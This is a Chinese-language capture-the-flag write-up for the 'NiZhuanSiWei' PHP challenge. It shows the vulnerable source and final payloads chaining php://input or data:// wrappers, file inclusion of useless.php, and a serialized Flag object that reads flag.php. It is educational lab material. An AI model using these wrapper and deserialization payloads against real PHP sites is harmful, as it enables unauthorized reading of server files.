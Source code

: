 @[toc](文章目录)

##  NiZhuanSiWei

打开环境，看到代码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

进行代码审计，发现需要绕过三个点，text，file和password

首先text：看到file_get_contents(),打开文件内容，就需要写入文件内容，但是没办法写入，我就想到了伪协议的php://input,post的内容就是文件内容

所以：text=php://input,post内容是welcome to the zjctf

然后看file，我们看到useless.php,多半是要打开它，所以使用filter协议来读取文件内容

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}
?>
```

我们就需要useless.php的代码来反序列化

反序列化简单

```
<?php  

class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}
$a=new Flag();
echo serialize($a);
?>
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  
```

最后的payload

```php
text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
如果用input，需要POST传参，如果用data代替input，可以GET传参
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

##  



